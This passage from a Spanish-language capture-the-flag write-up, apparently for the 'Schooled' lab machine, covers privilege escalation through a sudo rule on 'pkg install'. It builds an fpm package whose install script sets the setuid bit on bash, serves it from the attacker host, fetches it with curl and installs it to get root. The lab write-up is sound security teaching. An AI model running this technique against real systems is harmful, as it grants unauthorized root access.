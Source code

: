 ## Escalada de privilegios

```
jamie@Schooled:~ $ sudo -l
User jamie may run the following commands on Schooled:
    (ALL) NOPASSWD: /usr/sbin/pkg update
    (ALL) NOPASSWD: /usr/sbin/pkg install *
```
Resulta que para pkg install tenemos una vía para escalar privilegios:  
https://gtfobins.github.io/gtfobins/pkg/

Según lo indicado habrá que usar fpm, que no tengo instalado, lo instalaré:
```
> apt install fpm
```
Después de unos cuantos errores con la herramienta que solucioné gracias a los issues de github, gracias gente!. Pude crear el paquete necesaria para la escalada:
```
❯ TF=$(mktemp -d)

echo 'chmod u+s /usr/local/bin/bash' > $TF/x.sh

/opt/fpm/fpm-1.15.1/bin/fpm -n x -s dir -t freebsd -a all --before-install $TF/x.sh $TF
Created package {:path=>"x-1.0.txz"}

> ls
-rw-r--r-- 1 root root 504 jun  7 11:14 x-1.0.txz
```
Hay que pasar ese paquete a la máquina objetivo. Me pongo en escucha:
```
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.234 - - [07/Jun/2023 11:23:43] "GET /x-1.0.txz HTTP/1.1" 200 -
```
Desde la máquina víctima:
```
jamie@Schooled:~ $ curl http://10.10.14.8/x-1.0.txz --output x-1.0.txz
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   504  100   504    0     0   2625      0 --:--:-- --:--:-- --:--:--  2625
jamie@Schooled:~ $ ls
user.txt	x-1.0.txz
```
Y señoras y señores queda una línea de comando para convertirnos en root. Recordar que simplemente hemos seguido lo que ponía en gftobins sobre ese comando que teníamos permiso de sudo.

![fpm]({{ 'assets/img/writeups/Schooled/fpmsudo.png' | relative_url }}){: .center-image }

```
jamie@Schooled:~ $ sudo pkg install -y --no-repo-update ./x-1.0.txz
pkg: Repository FreeBSD has a wrong packagesite, need to re-create database
pkg: Repository FreeBSD cannot be opened. 'pkg update' required
Checking integrity... done (0 conflicting)
The following 1 package(s) will be affected (of 0 checked):

New packages to be INSTALLED:
	x: 1.0

Number of packages to be installed: 1
[1/1] Installing x-1.0...
Extracting x-1.0: 100%
jamie@Schooled:~ $ ls -l /usr/local/bin/bash
-rwsr-xr-x  1 root  wheel  941288 Feb 20  2021 /usr/local/bin/bash
jamie@Schooled:~ $ bash -p
[jamie@Schooled ~]# id
uid=1001(jamie) gid=1001(jamie) euid=0(root) groups=1001(jamie),0(wheel)
```